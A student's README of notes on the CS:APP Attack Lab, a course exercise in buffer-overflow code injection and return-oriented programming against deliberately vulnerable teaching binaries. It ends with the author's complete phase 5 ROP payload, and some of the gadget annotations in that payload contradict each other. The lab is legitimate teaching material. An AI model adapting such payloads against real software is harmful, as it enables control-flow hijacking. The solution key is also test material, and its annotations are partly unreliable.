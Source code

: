 # CSAPP: Attack Lab Notes

This assignment involves generating a total of five attacks on two programs having different security vulnerabilities
You will learn different ways that attackers can exploit security vulnerabilities when programs do not safeguard themselves well enough against buffer overflows. Through this, you will get a better understanding
of how to write programs that are more secure, as well as some of the features provided by compilers and
operating systems to make programs less vulnerable. You will gain a deeper understanding of the stack
and parameter-passing mechanisms of x86-64 machine code. You will gain a deeper understanding of how
x86-64 instructions are encoded. You will gain more experience with debugging tools such as GDB and
OBJDUMP. Note: In this lab, you will gain firsthand experience with methods used to exploit security
weaknesses in operating systems and network servers. Our purpose is to help you learn about the runtime
operation of programs and to understand the nature of these security weaknesses so that you can avoid them
when you write system code. We do not condone the use of any other form of attack to gain unauthorized
access to any system resources. You will want to study Sections 3.10.3 and 3.10.4 of the CS:APP3e book
(Computer Systems: A Programmer’s Perspective) as reference material for this lab.

## Before you start
You are suggested to have some basic understanding of Assembly langauge and memory allocation. Some suggestion:
* Read *Bryant & O’Hallaron, "Computer Systems: a Programmer’s Perspective", 3rd Edition, 3.10.2~3.10.5*
* Comfortable using [gdb](http://csapp.cs.cmu.edu/2e/docs/gdbnotes-x86-64.pdf)
* Comfortable reading [x86-64 assembl](https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf)

## Basic idea
In C langauge, every function call would place return address on bottom of stack. When the callee return, the 
program counter would direct to the return address. 
The are some functions in C like getchar() make buffer on stack but not check how many data you put into stack.
This entable attackers to overwrite return address, thus hijack the control of program.

## Target program
There are two executable *CTARGET* and *RTARGET*, they both called `getbuf`
```
unsigned getbuf()
{
char buf[BUFFER_SIZE];
Gets(buf);
return 1;
}
```
The function `Gets` will make a buffer that enable attacker to overwrite return address and triger a series of attack.
There are 5 phases:
| Phase   |      Program      |  Method |
|:----------:|:-------------:|:------:|
| 1 |  CTARGET | Code injection |
| 2 |    CTARGET   | Code injection |
| 3 | CTARGET | Code injection |
| 4 |  RTARGET | Return-oriented programming |
| 5 |  RTARGET | Return-oriented programming |

**Code injection:** Code injection is most basic and easy way for buffer overflow attack. Since Gets makes buffer on stack. There is some momory between return address and  return address. Attack can pass Assembly instructions as hex value in buffer and redirect EPI to the instruction address to perform injected instruction.

**Return-oriented programming:** There are several shorting coming for **Code injection**. Compilier can make random padding address in buffer so that its hard to calculate the address of injected instruction. Also, compilier can make stack inexecutable to prevet EPI point to injected code. To circumvent these protection, attackers can look through original assembly code, and find pieces of instructions called *Gadget* that ended with return that collaberately achieve goal and put the address of these instructions is sequence on stack. And overwrite the return address to the address to the first instruction. Then as every *Gadget* reaches its return, it trigers the start of next *Gadget*

## Method used for the lab
`objdump -d <target>` to get the assembly code for binary file
`gdb <target>`
`info address <target function>` to find the address of functions you need.
Write your input as hex in key
`./hex2raw < key | ./ctarget` to encrylt your input and pass to target

## Illustration of answer by example phase5
The following is my key for phase5
```
48 c7 c7 70 2b 68 55 c3 \ buffer of 56 bytes
00 00 00 00 00 00 00 00 \ .
35 35 37 36 64 65 30 35 \ .
00 00 00 00 00 00 00 00 \ .
00 00 00 00 00 00 00 00 \ .
00 00 00 00 00 00 00 00 \ ,
00 00 00 00 00 00 00 00 \ buffer end
ed 19 40 00 00 00 00 00 \ pop rax O (this is ret address, so no the bottom of stack is on next line)
20 00 00 00 00 00 00 00 \ value for rsi (bottom of stack when pop)
b2 1a 40 00 00 00 00 00 \ movl eax,ecx (address of gadget) "89 c1 c3" is stored at address 0x401ab2 to 0x401ab4
11 1a 40 00 00 00 00 00 \ movl ecx,edx (address of gadget) "89 c1 c3" is machine language corresponding to movl eax,ecx ret
7b 1a 40 36 64 65 30 35 \ movl edx,edi (address of gadget)  
2c 1a 40 00 00 00 00 00 \ mov  rsp,rax (address of gadget) get rsp address
de 19 40 00 00 00 00 00 \ mov  rax,rdi (address of gadget)
fd 19 40 00 00 00 00 00 \ lea  (%rdi,%rsi,1),%rax (address of gadget) get the address of target value by displacemet on rsp
de 19 40 00 00 00 00 00 \ mov rax,rdi
34 19 40 00 00 00 00 00 \ address of touch3() rdi, address of targetvalue, is passed to touch3() and call touch3()
35 35 37 36 64 65 30 35 \ target value
00
```



## Author
* **Chen Li** 


## Acknowledgments
* This project is based on *Bryant & O’Hallaron, "Computer Systems: a Programmer’s Perspective", 3rd Edition*

